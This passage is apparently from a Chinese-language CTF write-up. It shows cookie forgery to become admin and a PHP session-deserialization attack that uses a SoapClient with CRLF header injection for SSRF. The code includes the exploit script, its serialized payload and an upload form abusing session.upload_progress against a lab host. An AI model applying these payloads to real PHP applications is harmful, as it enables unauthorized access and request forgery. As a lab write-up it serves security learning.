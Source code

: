 改cookie后变成welcome admin，成功伪造成admin

## SSRF

因为要127.0.0.1,很容易联想到SSRF

在se.php中存在关键代码

```
ini_set('session.serialize_handler', 'php');
```

于是想到session反序列化,又要ssrf,想到利用Soap进行SSRF

> getflag方法总的来说就是构造文件上传写入session文件，然后利用session 反序列化，生成一个soapclient 对象,然后加上crlf设置cookie,进行越权 ssrf

### 上传SESSION

Soap反序列化写入SESSION

```
$target = 'http://127.0.0.1/interface.php';
$post_string = 'a=1&b=2';
$headers = array(
	'X-Forwarded-For: 127.0.0.1',
	'Cookie: user=xZmdm9NxaQ==',


);
$b = new SoapClient(null, array('location' => $target, 'user_agent' => 'wupco^^Content-Type: application/x-www-form-urlencoded^^' . join('^^', $headers), 'uri' => "aaab"));
$aaa = serialize($b);
$aaa = str_replace('^^', "\r\n", $aaa);
$aaa = str_replace('&', '&', $aaa);
echo $aaa;
//结果
O:10:"SoapClient":5:{s:3:"uri";s:4:"aaab";s:8:"location";s:30:"http://127.0.0.1/interface.php";s:15:"_stream_context";i:0;s:11:"_user_agent";s:109:"wupco
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Cookie: user=xZmdm9NxaQ==";s:13:"_soap_version";i:1;}
```

本地写一个html页面用于上传文件,利用`session.upload_progress`写入session

```
<html>
<body>
    <form action="http://905705f8-b6ff-431a-b953-c2c5ff0d70ed.node3.buuoj.cn/index.php" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="1" />
        <input type="file" name="file" />
        <input type="submit" />
    </form>
</body>
</html>
```

